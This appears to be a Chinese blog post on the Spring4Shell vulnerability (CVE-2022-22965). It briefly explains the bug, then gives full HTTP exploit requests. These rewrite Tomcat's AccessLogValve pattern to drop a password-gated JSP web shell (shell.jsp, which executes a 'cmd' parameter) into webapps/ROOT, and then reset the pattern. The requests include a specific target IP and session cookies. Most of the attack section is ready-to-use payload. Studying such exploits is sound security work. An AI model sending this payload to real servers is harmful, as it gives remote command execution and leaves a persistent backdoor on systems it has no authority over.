 # Spring4Shell

## 简介

Spring MVC框架的参数绑定功能提供了将请求中的参数绑定控制器方法中参数对象的成员变量，攻击者通过构造恶意请求获取AccessLogValve对象并注入恶意字段值触发pipeline机制可写入任意路径下的文件。

影响JDK9+，且Spring的版本：

> Spring Framework 5.3.X < 5.3.18
>
> Spring Framework 5.2.X < 5.2.20

似乎有人说只能SpringMVC有效？这个没具体试了。

CVE号是CVE-2022-22965。

## CVE-2010-1622

之所以还会提这个很老的CVE就是因为Spring4Shell是在这个CVE的基础上加以利用的：

http://rui0.cn/archives/1158



## JDK9及以上

之所以需要JDK9及以上就是因为遍历一下`Introspector.getBeanInfo（Class.class）`会发现JDK9比JDK8多了`module`和`packetName`，这个漏洞就是利用的model来获取了`AccessLogValve`对象。

## AccessLogValve

参考http://xiaobaoqiu.github.io/blog/2014/12/30/tomcat-access-logpei-zhi/

这样就可以通过Access Log来写shell了。

## EXP

```html
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: 121.5.169.223:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
suffix: %>//
c1: Runtime
c2: <%
DNT:1
Cookie: __typecho_lang=zh_CN; PHPSESSID=6d3c586844b6156145dc3052dc73a614; session=cb52d5fd-02d3-470e-8e2d-8ab9da3050d0.8sK-qaB9Y4PsNG_IoB8nA5g7rvA; JSESSIONID=68F3E7935CF94FF0612E2AA3C27C6DE2
Connection: close


```

之后再请求一下pattern为空的就好了：

```java
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern= HTTP/1.1
Host: 121.5.169.223:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
suffix: %>//
c1: Runtime
c2: <%
DNT:1
Cookie: __typecho_lang=zh_CN; PHPSESSID=6d3c586844b6156145dc3052dc73a614; session=cb52d5fd-02d3-470e-8e2d-8ab9da3050d0.8sK-qaB9Y4PsNG_IoB8nA5g7rvA; JSESSIONID=68F3E7935CF94FF0612E2AA3C27C6DE2
Connection: close


```

再访问`shell.jsp`即可rce。



但是我本地不知道因为什么奇怪的原因打不通呜呜呜。

## 参考链接

https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22965